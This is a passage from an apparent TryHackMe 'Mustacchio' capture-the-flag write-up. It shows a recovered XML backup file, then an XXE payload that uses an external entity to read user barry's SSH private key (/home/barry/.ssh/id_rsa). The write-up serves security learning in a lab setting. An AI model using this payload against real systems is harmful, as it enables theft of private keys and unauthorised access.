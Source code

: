 ![Pasted image 20250725172526.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725172526.png)

We also have :

![Pasted image 20250725173907.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725173907.png)

Let's go to the page to download and open it:

```
──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Mustacchio]
└─$ cat dontforget.bak 
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>            
```

We have 2 users : `joe` , `barry`. 
# Exploit

We modify the [XML](XML.md) code found to retrieve the mentioned ssh barry's private key:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&xxe;</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could
ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could
ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```
